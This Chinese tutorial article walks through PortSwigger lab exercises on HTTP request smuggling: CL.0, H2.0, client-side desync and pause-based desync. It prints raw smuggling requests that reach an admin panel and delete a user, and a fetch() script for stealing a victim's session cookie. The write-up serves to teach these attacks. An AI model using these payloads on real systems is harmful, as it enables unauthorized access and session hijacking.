# 请求走私利用扩展(终结篇) - 先知社区

请求走私利用扩展(终结篇)

- - -

## 文章前言

在之前我们介绍了HTTP/1和HTTP/2的请求走私原理以及利用方法，本篇文章将对此进行进一步扩展介绍一些特殊的场景下的请求走私的检测以及利用方式和思路，对请求走私进行一个扩展补充，例如：CL.0请求走私、H2.0走私、去同步化攻击等，同时本篇文章也是对请求走私系列的最后一个收官，至此之前留下的请求走私的坑也算是被全部填完了

## CL.0走私

### 基本介绍

请求走私漏洞是由于"链式系统"中确定每个请求的起点和终点的方式存在差异，而这通常是由于标头解析不一致导致一台服务器使用请求的Content-Length，另一台服务器将消息视为分块消息，其实在不依赖于这两个问题的情况下我们也可以执行许多相同的攻击，在一些条件下后端服务器会忽略Content-Length头，这实际上意味着会忽略传入请求的主体，也就是将Content-Length视为0的情况，此时如果后端服务器表现出这种行为，但前端仍然使用Content-Length头来确定请求的结束位置，那么我们将有可能通过利用这种差异进行HTTP请求走私

### 漏洞检测

如果要探测CL.0请求走私漏洞，那么我们需要先发送一个在其正文中包含另一个部分请求的走私请求，然后发送一个正常的后续请求，然后检查后续请求的响应是否受到走私前缀的影响，如果服务器正常响应第二个请求，则此端点不存在CL.0请求走私漏洞，如果对第二个请求的响应与我们期望的走私前缀相匹配，则说明后端服务器会忽略请求头中的"Content-Length"，目标服务器存在CL.0请求走私漏洞，检测示例请求报文如下：

```plain
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com 
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 34 

GET /hopefully404 HTTP/1.1 
Foo: x
```

### 靶场演示

靶场地址：[https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling)  
靶场介绍：此靶场易受CL.0请求走私攻击且后端服务器在对某些端点的请求中会忽略Content-Length标头，你需要自我找寻一个易受攻击的路径并向后端提交一个访问/admin处的管理面板的请求去删除用户carlos  
靶场演示：  
在Burpsuite中捕获"GET /"请求并将其发送到Repeat模块，随后将其请求方法改为POST，随后插入以下走私请求内容

```plain
POST / HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182612-57345bea-b2c7-1.png)  
随后将请求URL更改为其他要Fuzzing的路径并更改请求头信息"Connection: keep-alive"发送请求

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182631-622cbc90-b2c7-1.png)  
如果服务器正常响应第二个请求，则此端点不会受到攻击，如果对第二个请求的响应与我们期望的走私前缀相匹配，则表面后端服务器会忽略请求头中的"Content-Length"

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182648-6c872928-b2c7-1.png)  
随后在burpsuite中将走私前缀的路径更改为指向/admin，再次按顺序发送请求观察第二个请求是否已成功访问管理面板

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182709-7964e144-b2c7-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182719-7f3e15c2-b2c7-1.png)  
随后调用接口删除用户

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182738-8a43d4f2-b2c7-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182746-8efcf514-b2c7-1.png)  
完成解题：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182758-961d2dc8-b2c7-1.png)

## H2.0走私

如果后端服务器忽略已降级请求的Content-Length标头，则将HTTP/2请求降级为HTTP/1的网站可能容易受到等效的"H2.0"问题的攻击，这里不再赘述，有兴趣的可以看之前的《HTTP/2请求走私深入刨析》和《请求走私一篇通》进行了解

## CSD攻击

## 基本介绍

客户端去同步(CSD)是一种使受害者的Web浏览器去同步其与易受攻击网站的连接的攻击方式，它与请求走私类似，只不过请求走私主要是使前端和后端服务器之间的连接不同步  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182851-b614ff20-b2c7-1.png)  
CSD攻击包括以下阶段

-   受害者访问任意域上包含恶意JavaScript的网页
-   JavaScript导致受害者的浏览器向易受攻击的网站发出请求(其正文中包含一个攻击者控制的请求前缀)
-   在服务器响应初始请求后，恶意前缀会留在服务器的TCP/TLS套接字上从而取消与浏览器的连接同步
-   JavaScript在中毒的连接下触发后续的连接请求，从而附加到恶意前缀中从而引发服务器的有害响应

备注：上面的攻击不依赖于两个服务器之间的解析差异，这意味着即使是单服务器网站也可能受到攻击

### 漏洞利用

简而言之我们只需要让受害者访问一个恶意网站，从而导致他们的浏览器发起攻击即可，下面我们通过一个靶场进行演示说明：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync)  
靶场介绍：此靶场易受客户端去同步攻击，因为服务器在向某些端点发出请求时会忽略Content-Length标头，您可以利用此漏洞诱使受害者的浏览器泄露其会话cookie  
演示过程：  
访问首页时从加载的界面我们可以看到默认直接转到了en路径下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114182929-cc7dc10c-b2c7-1.png)  
随后我们直接移除en再次回车发现还是会重定向到en中去，抓包后确认是存在一个重定向操作  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183224-34ad5260-b2c8-1.png)  
随后更改请求数据包的方法为POST并禁用Burpsuite的自动更新Content-Length头选项，设置Content-Length的值为110，随后移除请求body，重新发送数据包，可以看到此时会立即响应并不会有过长的延迟来等待我们指定的长度为110的body报文信息，说明这里忽略Content-Length

```plain
GET / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Content-Length:110
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183241-3f4098fe-b2c8-1.png)  
随后重新启用"Content-Length"长度更新选项并在正文中添加任意请求走私前缀，同时更改Connection为"keep-alive"

```plain
POST / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Connection:keep-alive
Content-Length:

GET /hopefully404 HTTP/1.1
Foo: x
```

在恶意请求之后将"GET /"的正常请求添加到选项卡组并使用发送按钮旁边的下拉菜单将发送模式更改为按顺序发送组(single connection)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183310-5042e6b6-b2c8-1.png)  
发送序列并检查响应，如果对第二个请求的响应与您所期望的走私前缀相匹配，则可以确认您可以导致去同步  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183322-575088b4-b2c8-1.png)  
随后回到Burp的浏览器中，访问其中一篇博客文章并观察到有一个包含评论功能，从Proxy>HTTP历史记录中找到"GET /en/post?postId=x"，在Burp Repeater中使用上一节中的desync矢量尝试在注释中捕获您自己的任意请求，例如:

请求报文1

```plain
POST / HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Connection: keep-live
Content-Length: 631

POST /en/post/comment HTTP/1.1
Host: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net
Cookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0
Content-Length: 128
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123%40163.com&website=http%3A%2F%2Fwww.baidu.com&comment=
```

请求报文2:

```plain
GET /capture-me HTTP/1.1
Host: YOUR-LAB-ID.h1-web-security-academy.net
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183401-6e90fe64-b2c8-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183411-7483a966-b2c8-1.png)  
回到浏览器刷新博客文章并在评论中可以看到已成功输出"GET /capture"请求的开始  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183422-7b17578c-b2c8-1.png)  
随后打开一个单独的Chrome浏览器示例，转到漏洞利用服务器，打开浏览器开发人员工具，转到Console选项卡使用fetch()API复制上一节中的攻击，在这里我们有意触发CORS错误以阻止浏览器遵循重定向，然后使用catch()方法继续攻击序列，我们此时可以看到两个请求：

-   已触发CORS错误的主请求
-   对主页的请求收到404响应

证实了可以从浏览器触发去同步矢量

```plain
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183521-9e44ceba-b2c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183528-a2c2aa70-b2c8-1.png)  
刷新博客文章并确认通过浏览器发起的攻击成功输出您自己/capture  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183542-aaca754a-b2c8-1.png)  
更改Content-Length捕获更多

```plain
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183601-b64f4f44-b2c8-1.png)  
随后转到漏洞利用服务器，在"正文"面板中粘贴之前的测试的脚本，随后将整个脚本包装在HTML的＜script＞标记中，存储该漏洞并单击"传递给受害者"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183617-bfc9d242-b2c8-1.png)  
刷新博客文章并确认您已经捕捉到受害者用户请求的开始  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183629-c72a5e30-b2c8-1.png)  
重复此攻击调整嵌套的"POST/en/POST/comment"请求的Content-Length，直到成功输出受害者的会话cookie  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183644-cfb91d84-b2c8-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183655-d624378a-b2c8-1.png)  
在Burp Repeater中使用受害者被盗的cookie发送请求/my-account(这里只要获取到完整的session的值即可)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183709-de987804-b2c8-1.png)  
完成解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114183719-e499ae1c-b2c8-1.png)

## 基于暂停的CSD攻击

### 基本介绍

有些时候看似安全的网站可能包含隐藏的同步漏洞，只有当你暂停请求时，这些漏洞才会暴露出来。服务器通常配置有读取超时，如果它们在一定时间内没有收到任何数据，它们会将请求视为完成并发出响应而不管它们被告知需要多少字节，当服务器超时请求但保持连接打开以供重用时，可能会出现基于暂停的去同步漏洞。在适当的条件下这种行为可以为服务器端和客户端的去同步攻击提供另一种途径

### 利用条件

在使用基于暂停的技术来引发类似CL.0的攻击需要满足以下条件：

-   前端服务器必须立即将请求的每个字节转发到后端，而不是等到收到完整的请求
-   前端服务器不能在后端服务器之前使请求超时
-   读取超时后端服务器必须保持连接打开以供重用

### 简易举例

下面我们通过一个例子来看这种技术是如何实现的，首先看一下标准的CL.0请求走私：

```plain
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

想象一下如果我们将标题发送到一个易受攻击的网站，但在发送正文之前暂停一下会发生什么：

-   前端将头转发到后端，然后继续等待Content-Length头承诺的剩余字节
-   后端超时并发送一个响应，前端可能会也可能不会读取该响应并将其转发给我们
-   紧接着我们发送一个请求主体信息，在本例中包含一个基本的请求走私前缀
-   前端服务器此时会将此视为初始请求的继续并通过同一连接将其转发给后端
-   后端服务器已经响应了初始请求，所以假设这些字节是另一个请求的开始

至此我们已经有效地实现了CL.0 desync，用请求前缀毒化了前端/后端连接，同时可以发现当服务器自己生成响应而不是将请求传递给应用程序时，它们更容易受到攻击

### 靶场演示

靶场地址：[https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync/lab-server-side-pause-based-request-smuggling](https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync/lab-server-side-pause-based-request-smuggling)  
靶场介绍：本靶场容易受到基于暂停的服务器端请求走私的攻击，前端服务器将请求流式传输到后端，后端服务器在某些端点超时后不会关闭连接，现在你需要确定一个基于暂停的CL.0 desync向量，然后将一个请求偷偷发送到后端的/admin管理面板，然后删除用户carlos  
演示过程：  
在Burp中从服务器响应头可以看出靶场使用的是Apache 2.4.52，此版本的Apache可能容易受到端点上基于暂停的CL.0攻击，这些攻击会触发服务器级重定向  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184046-605311ba-b2c9-1.png)  
在Burp Repeater中尝试发出对有效目录的请求，但不包括尾随斜杠，例如：GET /resources，随后可以看到被重定向到/resources/中去  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184102-694f4b4e-b2c9-1.png)  
然后我们右键单击请求，选择Extensions-> Turbo intrusor->发送到Turbo intrusor  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184115-71146f26-b2c9-1.png)  
在Turbo Intruder中将请求转换为POST请求，更改头部信息"keep-alive"，同时将完整的"GET /admin"请求添加到主请求的正文中(注意这里有两个换行哦)

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


GET /admin/ HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184138-7f48acd8-b2c9-1.png)  
点击"Attack"发动攻击，此时不会看到任何事情发生，但是61秒后会在结果表中看到两个条目：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184151-86d000a0-b2c9-1.png)  
第一个条目是"POST /resources"请求，它像往常一样触发了到/resources/的重定向  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184214-949c4dce-b2c9-1.png)  
第二个条目是对"GET /admin/"请求的响应，从回显结果可以看到只允许本地用户访问，而这也告诉我们这里存在基于暂停的CL.0漏洞  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184230-9e15d096-b2c9-1.png)  
随后更改主机头为localhost

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91


GET /admin/ HTTP/1.1
Host: localhost
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184253-ab89aa90-b2c9-1.png)  
重新发送请求并在61秒后可以看到已经能成功访问管理面板，观察管理面板可以看到这里包含一个用于删除给定用户的HTML表单，记下以下详细信息：

-   操作属性(/admin/delete)
-   输入的名称(用户名)
-   csrf token

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184316-b9714924-b2c9-1.png)  
返回配置界面并使用上述信息构造表单重新发送请求：

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 159

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=Dyo9ajteplhUQGufcNGiOcFgfceGOVz9&username=carlos
```

若要防止Turbo Intruder在请求中两次出现后暂停，需要更新pauseMarker参数，使其仅匹配第一组标头的结尾，例如：

```plain
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184350-cdebb286-b2c9-1.png)  
随后点击"Attack"实施攻击，此时会出现以下响应，从第二个报文中我们可以看到302重定向到了首页去，完成了删除操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184402-d4dac9a6-b2c9-1.png)

刷新靶场地址完成解题：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240114184604-1db74cda-b2ca-1.png)

## 文末小结

本篇文章算是对请求走私系列文章的一个收尾，通过前面的文章我们可以了解到HTTP/1.1请求走私的主要原因是在HTTP/1.1中提供了两种不同的方法来指定HTTP消息的长度Content-Length和Transfer-Encoding，如果单个消息同时使用上述两个头并且前后端存在解析差异那么将导致请求走私问题(CL.TE、TE.CL、TE.TE)，虽然HTTP2是基于预定义的偏移量进行解析，消息长度几乎不可能产生歧义，但是由于目前很多的Web服务器和反向代理通过HTTP/2降级用HTTP/1语法重写HTTP/2请求以生成等效的HTTP/1请求，从而实现对用HTTP/1的后端服务器通信提供HTTP/2支持，从而导致攻击者可以借助协议降级继续请求走私，衍生出了H2.CL、H2.TE等请求走私手法，而本文则是对之前两则的一个补充和扩展，引入了新的CL.0走私、H2.0走私以及去同步走私攻击，通过请求走私攻击者可以进行缓存投毒、绕过权限管控访问特殊资源并执行敏感操作等攻击

## 参考链接

[https://portswigger.net/research/browser-powered-desync-attacks](https://portswigger.net/research/browser-powered-desync-attacks)  
[https://portswigger.net/web-security/request-smuggling#how-to-prevent-http-request-smuggling-vulnerabilities](https://portswigger.net/web-security/request-smuggling#how-to-prevent-http-request-smuggling-vulnerabilities)  
[https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#what-is-a-client-side-desync-attack](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#what-is-a-client-side-desync-attack)
